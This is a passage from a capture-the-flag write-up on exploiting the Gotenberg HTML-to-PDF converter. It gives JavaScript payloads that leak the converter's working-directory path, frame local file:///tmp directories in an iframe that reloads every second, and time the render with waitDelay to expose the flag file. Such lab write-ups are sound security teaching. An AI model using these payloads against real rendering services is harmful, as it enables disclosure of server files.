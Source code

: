 Now we successfully leaked `fs.workingDir`! In my case, it's `f2a92410-c4fc-41e2-9c06-0428e25570c2`.

But wait, how can we also leak the random UUID string? Each conversion will generate a different UUID string!

To do so, we can use `<iframe>` HTML element to embed that leaked `fs.workingDir` path: (or using `<meta>` tag to redirect that path)

```html
<p id="path"></p>
<p id="fsWorkingDir"></p>
<iframe id="frame" width="100%" height="300px"></iframe>

<script>
const currentPath = window.location.pathname;
path.innerText = `Current path: ${currentPath}`;
const workingDirectory = currentPath.split('/')[2];
fsWorkingDir.innerText = `fs.workingDir = ${workingDirectory}`;

frame.src = `file:///tmp/${workingDirectory}/`;
</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KalmarCTF-2025/images/Pasted%20image%2020250311224412.png)

Note that we can't access to the `<iframe>`'s DOM due to Same Origin Policy (SOP).

Hmm... Is it possible to time the conversion so that the flag `index.html`'s random UUID will be appeared in here?? It seems very impractical.

After reading Gotenberg's documentation, I noticed this: [Wait Before Rendering](https://gotenberg.dev/docs/routes#wait-before-rendering-chromium). Basically, in all API routes, they accept form field key `waitDelay` and `waitForExpression`. In `waitDelay`, it allows us to **delay a given amount of seconds**, then convert the HTML file into PDF. For `waitForExpression`, it first waits for the given JavaScript expression to return `true`, then convert the file into PDF.

Ah ha! Maybe we can time the delay perfectly, so that the flag `index.html`'s random UUID will be appeared in the `<iframe>`.

Also, since the `<iframe>` won't be reloaded when there are changes inside the `<iframe>`, we need to find a way to reload the `<iframe>`'s content. After some Googling, [this StackOverflow answer](https://stackoverflow.com/questions/86428/what-s-the-best-way-to-reload-refresh-an-iframe#comment11650059_4062084) can solve that problem by appending the `src` attribute with an empty string:

```html
<p id="path"></p>
<p id="fsWorkingDir"></p>
<iframe id="frame" width="100%" height="300px"></iframe>

<script>
const currentPath = window.location.pathname;
path.innerText = `Current path: ${currentPath}`;
const workingDirectory = currentPath.split('/')[2];
fsWorkingDir.innerText = `fs.workingDir = ${workingDirectory}`;

frame.src = `file:///tmp/${workingDirectory}/`;
setInterval(() => {
  frame.src += '';
}, 1000);
</script>
```
